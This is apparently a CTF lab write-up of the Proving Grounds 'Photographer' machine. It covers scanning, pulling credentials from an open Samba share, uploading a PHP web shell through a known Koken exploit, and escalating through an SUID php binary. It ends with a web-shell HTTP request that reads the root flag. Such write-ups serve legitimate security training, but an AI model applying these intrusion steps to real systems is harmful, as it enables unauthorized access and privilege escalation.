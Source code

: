 ```yaml
---
title: "Proving Grounds - Photographer"
category: ctf-writeup
layout: post
---
```


I've started my OSCP journey a while ago, and I wanted to try the PG machines, this is the first one that I've tried. The machine is fairly straightforward and it's labeled easy.

I've started with a simple `nmap` scan, which hinted that this Linux machine is part of an Active Directory.

```bash
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 414daa1886948e88a74c6b426076f14f (RSA)
|   256 4da3d07a8f64ef82452d011318b7e013 (ECDSA)
|_  256 1a017a4fcf9585bf31a14f1587ab94e2 (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Photographer by v1n1v131r4
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
8000/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: daisa ahomi
|_http-generator: Koken 0.22.24
Service Info: Host: PHOTOGRAPHER; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

On the port `80` we have a simple web page which is more or less just a placeholder of a template, but on the `8000` we have a functional website build with `Koken`

```
# Versions for :80
http://192.168.160.76:80/ 
[200 OK] Apache[2.4.18], 
Country[RESERVED][ZZ], HTML5, 
HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], 
IP[192.168.160.76], 
JQuery, Script, 
Title[Photographer by v1n1v131r4]

# Versions for :8000
http://192.168.160.76:8000/
[200 OK] Apache[2.4.18], 
Country[RESERVED][ZZ], HTML5, 
HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)],
IP[192.168.160.76], JQuery[1.12.4], 
Meta-Author[daisa ahomi], 
MetaGenerator[Koken 0.22.24],
Script, Title[daisa ahomi], 
X-UA-Compatible[IE=edge]
```

I immediately searched for exploits for `Koken 0.22.24`, and found this one: https://www.exploit-db.com/exploits/48706

This is `authenticated` exploit, so it hinted that I must look further to get some credentials.

Upon scanning the Active Directory (`139,445`) I found public shares, one of which was non-default `sambashare`.

```bash
$ smbclient -N -L 192.168.160.76           
Sharename       Type      Comment
---------       ----      -------
print$          Disk      Printer Drivers
sambashare      Disk      Samba on Ubuntu
IPC$            IPC       IPC Service (photographer server (Samba, Ubuntu))
```

I explored it and found 2 files, one was an email in a `txt` format and the other one was zipped WordPress site, I've scanned the WordPress source code with `gf` (https://github.com/tomnomnom/gf) but found nothing. The mail thought had an interesting text inside that hinted two users and suggestion for a password.

```bash
agi@photographer.com - Agi Clarence
daisa@photographer.com - Daisa Ahomi
```

I found the password for the user `daisa@photographer.com` in the content of the mail. (It is very simple!)

After that, I logged into the `Koken's` Admin Panel and uploaded a simple PHP shell using the previously mentioned exploit. I could read the `user/local.txt` file that yielded the user own flag.

The root was pretty straightforward, upon scanning for `SUID` binaries, I found that `/usr/bin/php7.2` was such, and a simple request with the previous active shell yielded me the root flag.

```bash
GET /storage/originals/4f/38/image.php?cmd=/usr/bin/php7.2+-r+'readfile("/root/proof.txt")%3b' HTTP/1.1
Host: 192.168.210.76:8000
Upgrade-Insecure-Requests: 1
User-Agent: ...
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: koken_session_ci=...
Connection: close
```
